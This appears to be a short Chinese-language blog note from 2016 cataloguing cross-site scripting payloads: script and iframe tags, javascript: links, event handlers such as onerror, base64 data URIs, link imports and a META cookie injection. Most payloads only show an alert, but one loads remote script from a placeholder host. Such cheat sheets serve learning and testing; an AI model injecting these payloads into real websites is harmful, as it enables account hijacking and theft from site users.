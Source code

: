 ```yaml
---
title: XSS笔记
slug: xssbi-ji
date_published: 2016-12-19T10:54:42.000Z
date_updated: 2016-12-19T10:54:42.000Z
---
```


> XSS标签利用

- 
`<script>`和`<iframe>`

这些标签可以直接执行javascript代码

- 
javascript的伪协议

`<a>`,`<iframe>`

    <iframe src="javascript:alert(xss);"></iframe> 
    <a href="javascript:alert(xss);">xss</a>
    

- 
利用html事件(dom的事件有100多种)

`onload`,`onclick`,`onerror`,`onmousemove`,`onmouseover`等

      <img src="xxx.png" onload="alert('xss')" /> //需要加载成功
      <a onclick="alert('xss')"></a>
      <img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://xxx/xxx.js';>
    

- 
Data URI 协议(IE不可用)

`<a>`,`<object>`,`<meta>`

      <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">test</a>  
      <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4="></object>
      <meta HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K" /> 
    

- link的href

      <link rel="import" href="https://www.xxx.com/xss"></link> //一个xss页面就行
    

- 
其他

设置cookie：

    <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
    

​

